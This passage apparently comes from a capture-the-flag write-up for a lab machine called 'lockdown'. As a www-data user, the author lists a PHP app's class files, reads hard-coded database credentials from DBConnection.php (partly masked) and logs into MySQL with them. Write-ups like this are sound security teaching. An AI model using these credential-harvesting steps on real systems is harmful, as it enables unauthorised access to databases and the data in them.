 ```bash
www-data@lockdown:/var/www/html/classes$ ls -al
ls -al
total 52
drwxr-xr-x  2 www-data www-data 4096 May 11  2021 .
drwxr-xr-x 11 www-data www-data 4096 May 11  2021 ..
-rw-r--r--  1 www-data www-data 1770 May 11  2021 City.php
-rw-r--r--  1 www-data www-data  653 May 11  2021 DBConnection.php
-rw-r--r--  1 www-data www-data 2811 May 11  2021 Establishment.php
-rw-r--r--  1 www-data www-data 1880 May 11  2021 Login.php
-rw-r--r--  1 www-data www-data 1011 May 11  2021 Main.php
-rw-r--r--  1 www-data www-data 2991 May 11  2021 People.php
-rw-r--r--  1 www-data www-data 1788 May 11  2021 State.php
-rw-r--r--  1 www-data www-data 3606 May 11  2021 SystemSettings.php
-rw-r--r--  1 www-data www-data    4 May 11  2021 TEST.php
-rw-r--r--  1 www-data www-data 2145 May 11  2021 Users.php
-rw-r--r--  1 www-data www-data 1800 May 11  2021 Zone.php
```
```php
www-data@lockdown:/var/www/html/classes$ cat DBConnection.php
cat DBConnection.php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoR********9tvq2UdNWE';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
```

Logging into `cts_db` database to retreive some juicy info .

```sql
www-data@lockdown:/var/www/html/classes$ mysql -h localhost -u cts -pYOUMKt**********9tvq2UdNWE -D cts_db       

mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 212
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.
```